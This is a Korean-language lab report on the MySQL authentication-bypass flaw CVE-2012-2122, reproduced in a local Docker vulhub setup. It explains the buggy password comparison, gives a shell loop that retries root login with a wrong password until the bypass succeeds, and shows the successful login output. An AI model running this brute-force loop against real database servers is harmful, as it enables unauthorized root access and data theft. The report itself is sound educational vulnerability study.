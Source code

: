 # CVE-2012-2122 실습 보고서

- 이름: 남윤화
- 날짜: 2025-04-10
- 취약점명: MySQL 인증 우회 취약점 (CVE-2012-2122)
- 실습 환경: Docker + kr-vulhub
- GitHub 레포: (https://github.com/SouthYun/kr-vulhub)

---

## 1. 개요

CVE-2012-2122는 MySQL 5.5.23 이하 버전에서 발생하는 인증 우회 취약점입니다.  
잘못된 비밀번호를 여러 번 입력할 경우, 낮은 확률로 인증이 우회되며 로그인에 성공할 수 있습니다.  
이는 MySQL 내부의 암호 비교 함수의 버그로 인해 발생합니다.

### 1.1 MySQL이란
MySQL은 오픈 소스 관계형 데이터베이스로, 데이터를 표로 저장하고 관리하는 프로그램입니다. 많은 웹 서비스에서 사용자 정보나 게시글을 저장할 때 사용합니다. 

### 1.2 정상적 MySQL
사용자가 Id, Pw 입력 -> 서버가 암호화된 해시로 비교 -> 일치하면 로그인 성공

### 1.3 인증 우회 취약점
내부적으로 strcmp() 함수를 써서 비교하던 중, 암호가 맞지 않아도 특정 시점에서는 이를 같다고 잘못 판단하는 경우가 발생함.
이는 1/256 확률로 발생.

만일 root계정으로 인증이 우회되면 DB를 전부 빼내갈 수 있으므로 이는 매우 위험함.
---

## 2. 실습 환경 구성

### 2.1 kr-vulhub 클론

```
git clone https://github.com/SouthYun/kr-vulhub
cd kr-vulhub/MySQL/CVE-2012-2122
```

### 2.2 Docker 환경 실행
docker-compose up -d
정상적으로 컨테이너가 실행되었는지 확인합니다.


## 3. 취약점 재현
### 3.1 무한 루프 로그인 시도
취약한 서버에 비밀번호가 틀린 상태로 계속 로그인을 시도합니다.

```
while true; do mysql -u root -pwrongpassword -h 127.0.0.1; done
```
위위 명령어는 잘못된 비밀번호를 반복적으로 시도하여, 낮은 확률로 인증 우회가 발생하는지를 실험합니다.

### 3.2 로그인 우회 성공
일정 횟수 반복 후, 아래와 같이 root 권한으로 로그인에 성공합니다.

```
Welcome to the MySQL monitor.
Your MySQL connection id is 660
Server version: 5.5.23 Source distribution
```
아래는 인증 우회가 성공한 화면입니다.
[인증 우회 성공 스크린샷](login-bypass-success.png)


## 4. 요약 및 느낀 점
실제로 취약한 MySQL 버전에서는 비밀번호가 틀려도 인증이 우회되는 사례가 발생함을 확인했습니다.

이를 통해  공격자가 root를 포함한 특정 사용자 계정에 로그인해 허용되지 않은 권한의 기능을 수행하고 정보를 얻을 수 있음을 알게 되었습니다.

이를 방지하기 위해 주기적인 보안 업데이트가 중요하며, DB 서버의 네트워크가 노출되지 않도록 노력해야 함을 알게 되었습니다.

